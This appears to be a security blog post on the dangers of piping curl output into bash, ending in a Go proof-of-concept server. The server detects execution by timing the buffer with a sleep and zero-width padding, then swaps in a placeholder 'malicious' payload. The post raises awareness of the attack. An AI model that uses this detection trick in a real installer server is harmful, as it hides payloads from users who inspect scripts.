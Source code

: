 ```yaml
---
title: "The Dangers of curl | bash"
date: 2021-01-12T12:23:11Z
draft: true
toc: true
images:
tags:
  - golang
  - curl
  - bash
  - curlbash
  - cybersecurity
  - linux
---
```


I'm sure at some point or another we've all seen a software project that asks
you to installing it with a command like `curl https://install.example.com |
sudo bash`.

A few examples are [rustup](https://rustup.rs/),
[zerotier](https://github.com/zerotier/install.zerotier.com), and
[pyenv](https://github.com/pyenv/pyenv-installer).

_But why is it dangerous_ you ask? _Surely if [people on the internet advokate
the use of it](https://gist.github.com/btm/6700524) then it must fine?_ Well, it
depends what your definition of _fine_ is.

There are a few different issues with using `curl $URL | bash` that I want to
look at, two briefly and one in more detail.

From here on out I'll be using:

* `curl | bash` to refer to a command that downloads a file and sents the
  content via stdout to a shell (and example of a command like this being `curl
  https://install.example.com/ | sudo bash`)
* `$URL` to refer to the URL of the resource being being downloaded (in the
  previous example this would be `https://install.example.com/`)

## Possible Issues Scenarios

### 1. Interrupted Connections

When you `curl $URL | bash`, bash starts executing the script before the whole
of it was been downloaded. If you were to lose your connection to the server
before the script has finished downloading you may end up with half the script
having been executed and half of it not. This is a non-ideal situation that
could potentially leave your system in an unusable state (depending on the
script you were running).

### 2. Machine in the Middle (MitM)

A Machine in the Middle attack is when an attacker is in the middle on your
communication. This would allow them to modify the script as it is being
downloaded allowing them to run malicious commands on your machine.

A few ways to migigate this are by:

1. Using TLS. Curl will throw an error if a website has invalid TLS
   certificates. This means that if the script you are piping into bash uses
   https then you know there isn't a MitM (unless the MitM has an TLS cert for
   the domain in question that is signed by a CA you trust, in which case you
   have a bigger issue). You can run `curl https://self-signed.badssl.com/` as
   an example of how curl handles invalid TLS certificates.
2. Viewing the script in your browser first. If you navigate to `$URL` in your
   web browser first you can inspect the script to make sure that you trust it's
   content. This would be a valid solution, but turns out to not be effective.
   I'll discuss why now.

### 3. curl | bash Detection

It turns out that because of how unix pipelines work, a webserver can detect if
you are piping the output of `curl` or `wget` into an shell like `bash`.

I tweeted a proof of concept for this earlier.

{{< tweet 1326239169711108099 >}}

This attack is the main focus of this blog post an is inspired by
[https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/](https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/)
which explains part of why this works but does not provide a proof of concept.
This was posted in 2016 and I haven't been able to find much else out this.

As mentioned in section 1, if the content being downloaded is over a certain
size then bash will start exectuing commands before the whole file has been
download. Curl will fill the a buffer, bash will read and execute the commands,
curl will fetch more data from the server and fill the buffer again. This whole
process repeats until the whole script has been downloaded and executed by bash.

If bash is doing something time consuming (e.g. executing a `sleep` command)
then it will take longer before it empties the buffer and curl requests more of
the script. If the script is just being displayed (if you just `curl $URL` or if
you open `$URL` in a web browser) then there will be no delay as the `sleep`
command isn't being executed. We can detect this time difference on the server
the script is being download from.

I am going to quickly walk you through the Proof of Concept (PoC) I made in go.

Firstly I setup a simple go program that acts as an http server. It will listen
on port `:8080` and send requests to a function called `handler` (which I am
going to show you in the next sep).

```go
package main

import (
  "fmt"
  "net/http"
  "strings"
  "time"
)

func main() {
  http.HandleFunc("/", handler)
  http.ListenAndServe(":8080", nil)
}
```

The handler function is relativly simple.

Firstly we create a payload that we will use to detect if the code being
download is being executed or just displayed/stored. This example sends a script
that outputs _Hello World!_, sleeps for 1 second and has a comment. This command
is then followed by the byte string `\xe2\x80\x8b` 1048576 times. This byte
string is a zero width character meaning that it won't be visible to the user if
the script is being sent to firefox or stdout unless they open it in something
like a hex editor.

This chars at the end are so long that they will fill the buffer more than once.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte("echo Hello World!\nsleep 1\n# A comment" + strings.Repeat("\xe2\x80\x8b", 1024*1024) + "\n")
}
```
We then define a malicious payload to send if the script is being executed and a
harmless payload to send if it is not.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")
}
```

We can now set the response content type and status code, and send the detection
payload. However we won't end the request but instead start a timer. `res.Write`
is blocking meaning that the next line won't be executed until the whole of the
`detect_payload` has been requested by the client, and as it is longer than the
buffer if the code is being executed then bash will sleep before the rest of the
detect payload is requested. This means that when we measure the time that it
took for `res.Write` to run we can see if bash was executing the payload or not.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")

  res.Header().Set("Content-Type", "text/plain; charset=UTF-8")
  res.WriteHeader(200)
  started_detect := time.Now()
  res.Write(detect_payload)
  ended_detect := time.Now()
  elapsed := ended_detect.Sub(started_detect)
}
```

Now we simply see if we waited around for at least a second (the lenght of the
sleep) and if we did send the malicous payload.

```go
func handler(res http.ResponseWriter, req *http.Request) {
  detect_payload := []byte(
                  "echo Hello World!\nsleep 1\n# A comment"
                  + strings.Repeat("\xe2\x80\x8b", 1024*1024)
                  + "\n")

  malicious_payload := []byte("echo you have been pwned\n")
  harmless_payload := []byte("echo How are you?\n")

  res.Header().Set("Content-Type", "text/plain; charset=UTF-8")
  res.WriteHeader(200)
  started_detect := time.Now()
  res.Write(detect_payload)
  ended_detect := time.Now()
  elapsed := ended_detect.Sub(started_detect)
  if elapsed.Seconds() > 1 {
    fmt.Println("curl|bash detected. response time: ", elapsed)
    res.Write(malicious_payload)
  } else {
    fmt.Println("non curl|bash. response time: ", elapsed)
    res.Write(harmless_payload)
  }
}
```

This is a very simple PoC but you could easily make something more effective and
discreate. If the user is `curl | bash`-ing a large install script that is
larger than the buffer and has elements that take a while to execute, then you
wouldn't need any `sleep` commands or large amounts of hidden whitespace to make
this work.

## Conclusion

I'm not going to make a comment on if you should use `curl | bash` or not, that
is up to you and your threat model. However I think it is important that people
are aware that this sort of attack is in fact possible.
